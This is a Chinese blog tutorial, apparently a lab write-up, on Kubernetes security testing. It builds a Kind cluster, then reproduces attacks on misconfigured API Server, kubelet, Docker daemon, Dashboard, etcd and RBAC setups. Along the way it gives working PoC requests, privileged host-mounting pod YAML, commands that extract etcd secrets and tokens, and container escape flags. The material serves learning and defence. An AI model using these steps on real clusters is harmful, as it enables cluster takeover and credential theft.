## Kubernetes 安全测试实践录

- - -

### [0x00 前言](#toc_0x00)

最近在学习 K8S 相关云原生技术，因为之前工作的环境中接触到过 K8S 在 CI/CD 的场景应用，便一直想找个机会深入钻研一下云安全方向的利用，才有了这篇文章。本文非常适合刚入门或者准备学习云安全方向的安全人员，每个步骤都是亲手复现整理。文中如有错误的地方，还望各位大佬在评论区指正。

### [0x01 利用 Kind 快速搭建 K8S 环境](#toc_0x01-kindk8s)

##### [安装 Kind](#toc_kind)

Kind 是 Kubernetes In Docker 的缩写，就是将 Docker 容器作为节点并把 K8S 快速部署至其中一个 Node 的工具，且操作简单、学习成本低，非常适合在本地搭建 K8S 的开发/测试环境。而该工具是由 Go 语言编写，因此所需的环境就为 Go 和 Docker。

下面就测试在 Ubuntu18.04 的机器上安装

```plain
curl -Lo ./kind https://kind.sigs.k8s.io/dl/v0.11.0/kind-linux-amd64
chmod +x ./kind
mv ./kind /usr/local/bin/kind
```

输入 kind version 查看是否安装成功

##### [安装 Kubectl](#toc_kubectl)

```plain
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.21.2/bin/linux/amd64/kubectl
chmod +x ./kubectl
mv ./kubectl /usr/local/bin/kubectl
```

##### [新建一个集群](#toc_)

```plain
kind create cluster --name k8s
```

创建完成后可以通过

```plain
kind get clusters
```

但是如此创建的集群是默认绑定到 127.0.0.1 地址上的，无法后续的测试，因此我这里直接用--config 指定配置文件来创建

```plain
kind: Cluster
apiVersion: kind.x-k8s.io/v1alpha4
name: k8s  #集群名
nodes: #节点配置，如下，启动一个 master 节点，一个 worker 节点
- role: control-plane   #master 节点
  image: kindest/node:v1.21.1 #指定镜像，同 kind create cluster 参数--image
  extraPortMappings:
  - containerPort: 6443
    hostPort: 26443
    listenAddress: "0.0.0.0"
    protocol: tcp #默认值，可不设置
- role: worker
```

将其保存为 k8s.yml 文件

```plain
kind create cluster --config k8s.yaml
```

完成后，查看当前已经有的集群

```plain
kind get clusters
```

此时创建好的 K8S 集群还是 Master，如果想在 Master 节点上直接装 Pod，则需要去除污点才可以正常安装 Pod

```plain
kubectl taint nodes --all node-role.kubernetes.io/master-
```

如果想要删除某个集群可以使用

```plain
kind delete cluster --name k8s
```

### [0x02 配置不当引发的组件安全问题](#toc_0x02)

##### [API Server 未授权访问](#toc_api-server)

运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使 6443 端口允许匿名用户以管理员权限向集群内部下发指令

```plain
kubectl create clusterrolebinding system:anonymous --clusterrole=cluster-admin --user=system:anonymous
```

Poc:

```plain
#查看 pods,GET
https://192.168.249.129:26443/api/v1/namespaces/default/pods?limit=500

#创建特权容器，POST
https://192.168.249.129:26443/api/v1/namespaces/default/pods
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}

#执行命令，GET
https://192.168.249.129:26443/api/v1/namespaces/default/pods/test-4444/exec?stdout=1&stderr=1&tty=true&command=whoami
```

在用 PostMan 测试第三条执行命令的时候我出现了"Upgrade request required"(400)

```plain
{
    "kind": "Status",
    "apiVersion": "v1",
    "metadata": {},
    "status": "Failure",
    "message": "Upgrade request required",
    "reason": "BadRequest",
    "code": 400
}
```

经过查询发现：

对于 websocket 连接，首先进行 http(s) 调用，然后是使用 HTTP Upgrade 标头对 websocket 的升级请求。

curl/Postman不支持从http升级到websocket。因此错误。

解决办法就是用 wscat 工具发送包

```plain
wscat -n -c 'https://192.168.249.129:26443/api/v1/namespaces/default/pods/test-4444/exec?stdout=1&stderr=1&tty=true&command=whoami'
```

[](https://storage.tttang.com/media/attachment/2021/12/26/c0de7e83-07af-49ae-85ce-351afeed3358.png)

##### [Docker Daemon 服务暴露至公网](#toc_docker-daemon)

首先来看一下 docker 的架构

[](https://storage.tttang.com/media/attachment/2021/12/26/dfc0b0c9-dd3b-4f16-bcf1-bbae9292c407.jpg)

分为三个部分，Client 上使用命令后，会发送对应的请求到 API，也就是 Docker Daemon 服务。然后 docker 会去对应的 Registry 仓库拉取镜像创建容器。

这个服务本地会暴露在 unix:///var/run/docker.sock 上，如果容器中有权限访问到这个文件，就可以对宿主机的所有容器进行操作。

这里我模拟运维人员不当操作开启远程的 Daemon 服务

分别用两种方式开启 Docker Daemon 服务

方法一：

```plain
# vim /usr/lib/systemd/system/docker.service
[Service]
ExecStart=
ExecStart=/usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix://var/run/docker.sock
```

方法二：

```plain
#vim /etc/docker/daemon.json

{
  "hosts": ["tcp://0.0.0.0:2375", "unix:///var/run/docker.sock"]
}
```

我这里用第二种方法配置好之后，重启 docker 服务

```plain
systemctl daemon-reload
systemctl restart docker
```

如果重启失败，查看报错信息发现是

```plain
from flag: [fd://], from file: [tcp://0.0.0.0:2375]
```

则需要修改 docker.service 文件内容，将其中的 fd://给删除掉

```plain
# ExecStart=/usr/bin/dockerd -H fd://
ExecStart=/usr/bin/dockerd
```

此时就可以发现 2375 的端口已经暴露在公网上了  
[](https://storage.tttang.com/media/attachment/2021/12/26/ae78efaf-ceb5-4461-a58b-4973a9df47cd.png)  
之后攻击者可以通过访问 http://192.168.249.129:2375/info 查看  
[](https://storage.tttang.com/media/attachment/2021/12/26/a5d017ec-47fb-4e93-ba04-7a890564b90b.png)  
或者是通过-H 直接执行 docker 命令

```plain
root@ubuntu:~# docker -H tcp://192.168.249.129:2375 version
Client:
 Version:           20.10.7
 API version:       1.41
 Go version:        go1.13.8
 Git commit:        20.10.7-0ubuntu5~18.04.3
 Built:             Mon Nov  1 01:04:14 2021
 OS/Arch:           linux/amd64
 Context:           default
 Experimental:      true
```

##### [Kubelet 10250 端口未授权访问](#toc_kubelet-10250)

10250 端口是 kubelet API 的 HTTPS 端口，该端口对外提供了 Pod 和 Node 的相关信息，如果该端口对公网暴露，并且关闭授权，则可能导致攻击。

首先修改配置文件/var/lib/kubelet/config.yaml

```plain
apiVersion: kubelet.config.k8s.io/v1beta1
authentication:
  anonymous:
    enabled: true
```

修改 authentication 的 anonymous 为 true

之后访问 https://192.168.1.102:10250/pods 即可验证漏洞是否存在  
[](https://storage.tttang.com/media/attachment/2021/12/26/0b9e9162-5357-458c-bfcb-d3b0b7d75aa2.png)

```plain
curl -k https://172.18.0.2:10250/run/{namespace}/{podName}/{appName} -d "cmd=whoami"
```

直接命令执行  
[](https://storage.tttang.com/media/attachment/2021/12/26/23201830-7da7-4ece-9e28-31a4f0691aa0.png)  
这里可以通过检索 securityContext 字段快速找到特权容器，方便之后逃逸容器  
[](https://storage.tttang.com/media/attachment/2021/12/26/5655276a-eed6-45d0-8e90-d912effa59c5.png)

##### [Kubernetes Dashboard 未授权访问](#toc_kubernetes-dashboard)

在 Kubernetes 社区中，有一个很受欢迎的 Dashboard 项目，它可以给用户提供一个可视化的 Web 界面来查看当前集群的各种信息。用户可以用 Kubernetes Dashboard 部署容器化的应用、监控应用的状态、执行故障排查任务以及管理 Kubernetes 各种资源。  
在开发环境中，很多运维人员对访问 Dashboard 时需要出示 Token 或是 Config 文件觉得麻烦，使用了免登录的 Dashboard 版本。  
具体环境安装步骤如下  
首先下载官方的安装 yaml 文件：

```plain
https://github.com/kubernetes/dashboard/blob/master/aio/deploy/recommended.yaml
```

步骤一、修改 Deployment  
找到 kind: Deployment 的地方  
修改成如下内容

```plain
kind: Deployment
apiVersion: apps/v1
metadata:
  labels:
    k8s-app: kubernetes-dashboard
  name: kubernetes-dashboard
  namespace: kubernetes-dashboard
spec:
  replicas: 1
  revisionHistoryLimit: 10
  selector:
    matchLabels:
      k8s-app: kubernetes-dashboard
  template:
    metadata:
      labels:
        k8s-app: kubernetes-dashboard
    spec:
      securityContext:
        seccompProfile:
          type: RuntimeDefault
      containers:
        - name: kubernetes-dashboard
          image: kubernetesui/dashboard:v2.4.0
          imagePullPolicy: Always
          ports:
            - containerPort: 8443
              protocol: TCP
            - containerPort: 9090   #Add 9090 Port
              protocol: TCP
              name: http
          args:
            #- --auto-generate-certificates
            - --namespace=kubernetes-dashboard
            # Uncomment the following line to manually specify Kubernetes API server Host
            # If not specified, Dashboard will attempt to auto discover the API server and connect
            # to it. Uncomment only if the default does not work.
            # - --apiserver-host=http://my-address:port
```

本次 Deployment 改动了两处：  
\- 增加暴露 9090 非安全端口  
\- 注释掉参数--auto-generate-certificates

步骤二、修改 Service  
找到文件中如下内容：

```plain
kind: Service
apiVersion: v1
metadata:
  labels:
    k8s-app: kubernetes-dashboard
  name: kubernetes-dashboard
  namespace: kubernetes-dashboard
spec:
  ports:
    - port: 443
      targetPort: 8443
  selector:
    k8s-app: kubernetes-dashboard
```

修改成如下

```plain
kind: Service
apiVersion: v1
metadata:
  labels:
    k8s-app: kubernetes-dashboard
  name: kubernetes-dashboard
  namespace: kubernetes-dashboard
spec:
  ports:
    - port: 443
      targetPort: 8443
      nodePort: 32001
      name: https
    - port: 80
      targetPort: 9090
      nodePort: 32000
      name: http
  type: NodePort
  selector:
    k8s-app: kubernetes-dashboard
```

本次修改 Service 内容如下：  
\- 增加 9090 端口  
\- 配置 nodePort，方便对外暴露端口访问  
\- 添加 type：NodePort

以上两个步骤全部改完之后通过 kubectl apply 部署即可访问 http://192.168.249.129:32000  
[](https://storage.tttang.com/media/attachment/2021/12/26/696ff0dd-e014-4abc-b777-8c0f167edf86.png)  
获取访问后直接创建特权容器即可 getshell

```plain
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /tmp
      name: volume
  volumes:
  - name: volume
    hostPath:
      path: /
```

##### [K8s Config 文件泄露](#toc_k8s-config)

如果攻击者通过 webshell、GitHub 等特定方式拿到该 K8s 配置的 Config 文件，就可以用该文件操作集群，从而接管所有容器。

找到 config 文件有如下三种判断方式：

-   如果提供了--kubeconfig 参数，就使用提供的 kubeconfig 文件。
-   如果没有提供--kubeconfig 参数，但设置了环境变量$KUBECONFIG，则使用该环境变量提供的 kubeconfig 文件。
-   如果以上两种情况都没有，kubectl 就使用默认的 kubeconfig 文件$HOME/.kube/config。

之后通过 kubectl --kubeconfig 指定设置 config 文件，就可操作对应的集群容器了。

##### [Etcd 未授权访问](#toc_etcd)

Etcd 是 Kubernetes 集群中的一个十分重要的组件，是兼具一致性和高可用性的键值数据库，用于保存集群所有的网络配置和对象的状态信息。通常我们用 etcd 来存储两个重要服务：

-   网络插件 flannel
-   kubernetes 本身，包括各种对象的状态和元信息配置

其默认监听了 2379 等端口，如果 2379 端口暴露到公网，可能造成敏感信息泄露。  
首先在 Kubernetes 中可以更改配置/etc/Kubernetes/manifests/etcd.yaml 文件的内容，来将 2379 端口向外暴露  
[](https://storage.tttang.com/media/attachment/2021/12/26/3bffc3dc-bd23-4c7e-b918-9c6d59ce65f7.png)  
Etcd v2 和 v3 是两套不兼容的 API，K8s 是用的 v3，所以需要先通过环境变量设置 API 为 v3

```plain
export ETCDCTL_API=3
```

当 etcd 授权的时候会回显如下：

```plain
root@ubuntu:~# etcdctl --endpoints=https://172.18.0.2:2379 get / --prefix --keys-only | grep /secrets/
Error:  context deadline exceeded
```

此时就需要带上相应的证书

```plain
export ETCDCTL_CERT=/etc/kubernetes/pki/etcd/peer.crt
export ETCDCTL_CACERT=/etc/kubernetes/pki/etcd/ca.crt
export ETCDCTL_KEY=/etc/kubernetes/pki/etcd/peer.key
```

查看 k8s 的 secrets

```plain
etcdctl get / --prefix --keys-only | grep /secrets/
```

读取 service account token

```plain
#etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
#etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jdp5z
```

[](https://storage.tttang.com/media/attachment/2021/12/26/a1fa2c9f-5024-437d-9d14-1afcad41291c.png)  
而读取的 Token 大概如下模样  
[](https://storage.tttang.com/media/attachment/2021/12/26/ce8ac3b9-9256-41f0-8c00-9ecd0ee5a3c4.png)  
之后就通过 token 访问 API-Server，获取集群的权限：

```plain
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="ey..." -n kube-system get pods
```

[](https://storage.tttang.com/media/attachment/2021/12/26/52833037-8293-4f3e-a85c-f1ce55d56a79.png)

##### [Kubectl Proxy 命令未安全使用](#toc_kubectl-proxy)

当运维人员需要某个环境暴露端口或者 IP 时，会用到 Kubectl Proxy  
使用 kubectl proxy 命令就可以使 API server 监听在本地的 8009 端口上：

```plain
kubectl proxy --port=8009
```

设置 API server 接收所有主机的请求：

```plain
kubectl --insecure-skip-tls-verify proxy --accept-hosts=^.*$ --address=0.0.0.0 --port=8009
```

之后就可以通过特定端口访问 k8s 集群

```plain
kubectl -s http://192.168.1.101:8009 get pods -n kube-system
```

##### [未开启 RBAC 控制](#toc_rbac)

如果运维在环境中没有设置 RBAC 或者 Kubernetes 版本低于 1.16 版本，则默认是不会开启 RBAC 访问控制策略。

基于角色（Role）的访问控制（RBAC）是一种基于组织中用户的角色来调节控制对 计算机或网络资源的访问的方法。

> 在 Kubernetes 中，授权有 ABAC（基于属性的访问控制）、RBAC（基于角色的访问控制）、Webhook、Node、AlwaysDeny（一直拒绝）和 AlwaysAllow（一直允许）这 6 种模式。从 1.6 版本起，Kubernetes 默认启用 RBAC 访问控制策略。从 1.8 开始，RBAC 已作为稳定的功能。
> 
> 可以在 k8s 环境中查看 apiserver 的参数是否有--authorization-mode=RBAC  
> [](https://storage.tttang.com/media/attachment/2021/12/26/4225b273-b8d5-40bf-a7e4-7f42b62b65c3.png)  
> 我这里直接修改/etc/kubernetes/manifests/kube-apiserver.yaml 文件，将--authorization-mode=RBAC 的参数给注释掉。
> 
> ServiceAccount 主要包含了三个内容：namespace、Token 和 CA。namespace 指定了 pod 所在的 namespace，CA 用于验证 apiserver 的证书，token 用作身份验证。它们都通过 mount 的方式保存在 pod 的文件系统中，其中 token 保存的路径是 /var/run/secrets/kubernetes.io/serviceaccount/token，是 apiserver 通过私钥签发 token 的 base64 编码后的结果  

因此我们只需要设置 namespace、Token 和 CA 给 Curl，就可以直接绕过 ApiServer 的 Token 验证，以 Pod 的普通用户身份访问集群了。

```plain
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces
```

[](https://storage.tttang.com/media/attachment/2021/12/26/6a6e1fb6-9b2c-4a29-9c7a-4f65afa6bc31.png)  
之后的利用就跟 API Server 未授权访问一样，创建特权容器逃逸即可。

关于这个安全问题如果想看实战可以跳到 Annevi 师傅的博客：[华为云 CTF cloud 非预期解之 k8s 渗透实战](https://annevi.cn/2020/12/21/%e5%8d%8e%e4%b8%ba%e4%ba%91ctf-cloud%e9%9d%9e%e9%a2%84%e6%9c%9f%e8%a7%a3%e4%b9%8bk8s%e6%b8%97%e9%80%8f%e5%ae%9e%e6%88%98/)

### [0x03 容器逃逸](#toc_0x03)

##### [判断是否为容器](#toc__1)

查看是否存在/.dockerenv 文件  
检查/proc/1/cgroup 是否包含"docker"字符串

##### [Docker in Docker](#toc_docker-in-docker)

这个很好理解，之前介绍 Docker Daemon 服务的时候就说明过/var/run/docker.sock 文件是本地的通信服务，所以这个逃逸就是将/var/run/docker.sock 挂载进了 Docker 容器中，导致可以在容器中执行 docker 命令。

```plain
docker run --rm -it \  -v /var/run/docker.sock:/var/run/docker.sock \  -v /usr/bin/docker:/usr/bin/docker \  ubuntu \  /bin/bash
```

##### [高危参数启动容器](#toc__2)

特权模式 (--privileged)：

```plain
sudo docker run -itd --privileged ubuntu:latest /bin/bash
```

挂载敏感目录 (/,/etc,/root/.ssh 等)：

```plain
docker run -itd -v /root:/root ubuntu:18.04 /bin/bash
```

挂载权限 (--cap-add=SYS\_ADMIN)：  
这个参数会给容器一个 SYS\_ADMIN 权限，可以在容器中允许执行 mount 特权操作

```plain
docker run --cap-add=SYS_ADMIN
```

##### [其他容器逃逸漏洞](#toc__3)

这里还有一些其他的容器逃逸漏洞，如：runC 容器逃逸漏洞 (CVE-2019-5736)、Docker cp 命令导致逃逸漏洞 (CVE-2019-14271)、Containerd 虚拟环境逃逸漏洞 (CVE-2020-15257) 等。本篇文章因为就不再赘述，网上有各式各样的复现文章，感兴趣的道友可以复现试试。

### [0x04 Reference](#toc_0x04-reference)

\[1\].[https://security.tencent.com/index.php/blog/msg/183](https://security.tencent.com/index.php/blog/msg/183)  
\[2\].[https://mp.weixin.qq.com/s/8lhmjPtLTlVkS1Q3-6-mHA](https://mp.weixin.qq.com/s/8lhmjPtLTlVkS1Q3-6-mHA)  
\[3\].[https://blog.csdn.net/u013488094/article/details/119949527](https://blog.csdn.net/u013488094/article/details/119949527)  
\[4\].[https://www.cdxy.me/?p=827](https://www.cdxy.me/?p=827)  
\[5\].[https://annevi.cn/2020/12/21/%e5%8d%8e%e4%b8%ba%e4%ba%91ctf-cloud%e9%9d%9e%e9%a2%84%e6%9c%9f%e8%a7%a3%e4%b9%8bk8s%e6%b8%97%e9%80%8f%e5%ae%9e%e6%88%98/](https://annevi.cn/2020/12/21/%e5%8d%8e%e4%b8%ba%e4%ba%91ctf-cloud%e9%9d%9e%e9%a2%84%e6%9c%9f%e8%a7%a3%e4%b9%8bk8s%e6%b8%97%e9%80%8f%e5%ae%9e%e6%88%98/)
